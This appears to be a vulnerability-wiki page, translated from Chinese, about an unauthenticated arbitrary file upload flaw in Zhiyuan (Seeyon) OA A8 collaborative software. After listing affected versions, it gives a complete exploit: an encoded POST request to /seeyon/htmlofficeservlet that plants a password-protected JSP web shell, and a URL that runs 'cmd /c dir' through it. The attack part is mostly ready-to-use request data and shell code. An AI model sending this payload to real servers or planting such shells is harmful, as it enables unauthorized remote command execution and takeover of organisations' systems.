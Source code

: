 # Zhiyuan OA A8 htmlofficeservlet any file upload vulnerability

## Vulnerability Description

The vulnerability was at the earliest around June 26, and some security manufacturers issued vulnerability warnings.

Remote attackers can write any file to the target server by carefully constructing data to the URL /seeyon/htmlofficeservlet POST without logging in. After the write is successful, they can execute any system commands to control the target server.

## Network surveying and mapping



## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan A8-V5 collaborative management software V6.1sp1</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan A8+ collaborative management software V7.0, V7.0sp1, V7.0sp2, V7.0sp3</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan A8+ collaborative management software V7.1</span>

## Vulnerability reappears

Visit the target site

```
/seeyon/htmlofficeservlet
```

The response shown in the following figure may contain vulnerabilities

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-1.png)



Use POST request to issue the following request package

```plain
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("
<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-2.png)



The response as shown in the figure is uploaded successfully.

```
/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-3.png)